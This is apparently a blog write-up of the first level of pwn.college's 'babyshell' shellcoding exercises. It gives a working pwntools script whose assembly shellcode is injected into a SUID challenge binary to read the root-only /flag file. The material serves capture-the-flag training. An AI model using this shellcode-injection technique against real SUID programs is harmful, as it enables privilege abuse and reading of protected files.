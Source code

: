 ```yaml
---
title: "Notes of pwn.college babyshell levels"
date: "2022-01-16"
author: "uoft-flyfreejay"
description: "short notes for pwn.college dojo's shellcoding exercises"
---
```


# Intro

So, here we go with the shellcoding modules. 

In these challenges, my goals are to read the contents of the `/flag` file. That file is only readable as a root. We will have to inject shellcodes into the binaries located under each `/challenge` folder to read the `/flag` using the SUID of the challenge binary. Of course, to make things more interesting each challenge will have their own special constraints. Let's get hacking!

## babyshell

### level1

The very first level. Running `ls -al` in the `/challenge` directory reveals that the binary in the folder has SUID bit set. Constructing the shellcode:

```python
import pwn
import time

pwn.context.arch = "amd64"
pwn.context.encoding = "latin"
pwn.context.log_level = "INFO"
pwn.warnings.simplefilter("ignore")

assembly = r'''
.global _start
.intel_syntax noprefix
_start:
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    syscall
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    mov rax, 0
    syscall
    mov rdi, 1
    mov rsi, rsp
    mov rdx, rax
    mov rax, 1
    syscall
    mov rax, 60
    syscall
flag:
    .ascii "/flag\0"
'''

with pwn.process(f"/challenge/{pwn.os.getenv('HOSTNAME')}") as target:
    pwn.info(target.readrepeat(1))

    target.send(pwn.asm(assembly))
    pwn.info(target.readrepeat(1))
```

I wrapped the shellcode in python and used `pwntools` to send it to the binary. This code will be the default template for the future challenges. 

